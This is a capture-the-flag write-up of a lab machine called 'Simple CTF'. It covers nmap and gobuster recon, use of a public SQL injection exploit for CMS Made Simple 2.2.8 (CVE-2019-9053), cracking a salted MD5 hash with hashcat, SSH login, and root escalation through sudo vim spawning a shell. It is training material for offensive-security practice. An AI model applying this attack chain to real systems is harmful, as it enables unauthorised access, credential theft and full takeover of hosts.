# Simple CTF

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hashcat, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.145.85

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.145.85
```



**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    80 (http Apache httpd 2.14.18),<br>
    2222 (ssh OpenSSH 7.2p2)

Anonymous login to ftp server is allowed

Vulnerability scan with nmap
```
nmap --script vuln 10.10.145.85
```



Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.145.85 -w /usr/share/dirb/wordlists/common.txt
```



Pages of Interest: /robots.txt, /simple

robots.txt has disallow entry /openemr-5_0_1_3



/openemr-5_0_1_3 gives 404 error

/simple is a website that uses CMS Made Simple v 2.2.8



### 2. FTP LOGIN

Anonymously login to ftp
```
ftp anonymous@10.10.145.85
```
cannot get file named pub from ftp server

### 3. EXPLOIT

Query ExploitDB for exploits
```
searchsploit cms made simple
```



CMS Made Simple 2.2.8 is vulnerable to SQLi (CVE-2019-9053) through the installed news module

Use exploit
```
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.145.85/simple
```



**USERNAME**: mitch

PASSWORD SALT: 1dac0d92e9fa6bb2<br>
PASSWORD HASH: 0c01f4468bd75d7a84c7eb73846e8d96$  

Password cracking failed so will have to manually crack the password with hashcat
```
echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash
hashid hash
```



Hash type could be md5

-a ATTACK_MODE (0 = straight)<br>
-m HASH_TYPE (20 = md5(\$salt.\$pass))
```
hashcat -a0 -m20 hash /usr/share/wordlists/rockyou.txt
```



**PASSWORD**: secret

### 4. SSH LOGIN

Log into SSH with found credentials
```
ssh mitch@10.10.145.85 -p2222
```


**USER FLAG**: G00d j0b, keep up!

Check privileges
```
sudo -l
```



Can run vim as root

### 5. PRIVILEGE ESCALATION

From https://gtfobins.github.io/gtfobins/vim/#sudo
```
sudo vim -c ':!/bin/sh'
```



**ROOT FLAG**: W3ll d0n3. You made it!